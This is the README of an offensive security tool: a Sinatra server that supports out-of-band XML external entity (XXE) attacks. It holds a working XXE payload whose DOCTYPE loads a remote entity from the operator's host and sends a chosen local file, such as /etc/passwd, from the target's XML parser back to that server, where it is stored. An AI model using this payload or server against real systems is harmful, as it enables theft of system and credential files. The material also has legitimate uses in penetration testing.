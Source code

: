 XXE Out of Band Server. 

This tiny Sinatra app will assist you in using the XXE Out of Band technique
described in [0].

Usage:

Start on default port of 443 (may need `sudo` on some systems)

`ruby xxeserve.rb`

Pass in port to start on

`ruby xxeserve.rb 8080`

Trigger the XML parser with the following XML:

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://YOURHOST:YOURPORT/xml?f=FULLPATH">
%remote;
%int;
%trick;]>
```

Where YOURHOST and YOURPORT needs to be set to the host/port this app
runs on in the URL you provide. FULLPATH needs to be set to the 
full absolute path of the to be read file (e.g. f=/etc/passwd)

e.g. http://8.8.8.8:443/xml?f=/etc/passwd

The according file will be send to the app and stored under ./files

Depending on the targeted parser it may not work with all files.

\[0\] [http://www.nosuchcon.org/talks/2013/D3_03_Alex&Timur_XML_Out_Of_Band.pdf](http://www.nosuchcon.org/talks/2013/D3_03_Alex&Timur_XML_Out_Of_Band.pdf)

